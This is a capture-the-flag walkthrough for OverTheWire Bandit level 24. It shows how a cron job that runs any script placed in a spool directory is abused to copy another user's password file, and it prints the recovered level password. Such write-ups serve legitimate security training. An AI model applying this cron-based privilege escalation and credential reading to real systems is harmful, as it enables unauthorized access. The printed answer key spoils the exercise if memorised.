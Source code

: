 # Bandit 24

A program is running automatically at regular intervals from cron, the time-based job scheduler. Look in /etc/cron.d/ for the configuration and see what command is being executed.

NOTE: This level requires you to create your own first shell-script. This is a very big step and you should be proud of yourself when you beat this level!

NOTE 2: Keep in mind that your shell script is removed once executed, so you may want to keep a copy around…

**Solution**

*Terminal*
```
bandit23@melinda:~$ cat /etc/cron.d/cronjob_bandit24
* * * * * bandit24 /usr/bin/cronjob_bandit24.sh &> /dev/null
bandit23@melinda:~$ cat /usr/bin/cronjob_bandit24.sh
#!/bin/bash

myname=$(whoami)

cd /var/spool/$myname
echo "Executing and deleting all scripts in /var/spool/$myname:"
for i in * .*;
do
    if [ "$i" != "." -a "$i" != ".." ];
    then
	echo "Handling $i"
	timeout -s 9 60 "./$i"
	rm -f "./$i"
    fi
done

bandit23@melinda:~$ mkdir /tmp/evanyeyeye_bandit24
bandit23@melinda:~$ cd /tmp/evanyeyeye_bandit24
bandit23@melinda:/tmp/evanyeyeye_bandit24$ nano shell.sh
```

*GNU nano editor*
```
#!/bin/bash

cat /etc/bandit_pass/bandit24 > /tmp/evanyeyeye_bandit24/pass.txt
```

*Terminal*
```
bandit23@melinda:/tmp/evanyeyeye_bandit24$ chmod -R 777 ./.
bandit23@melinda:/tmp/evanyeyeye_bandit24$ chmod +x shell.sh
bandit23@melinda:/tmp/evanyeyeye_bandit24$ cp shell.sh /var/spool/bandit24
bandit23@melinda:/tmp/evanyeyeye_bandit24$ echo Wait 60 seconds...
Wait 60 seconds...
bandit23@melinda:/tmp/evanyeyeye_bandit24$ ls
pass.txt  shell.sh
bandit23@melinda:/tmp/evanyeyeye_bandit24$ cat pass.txt
UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ
```

Password is UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ

*All descriptions are borrowed from OverTheWire.*
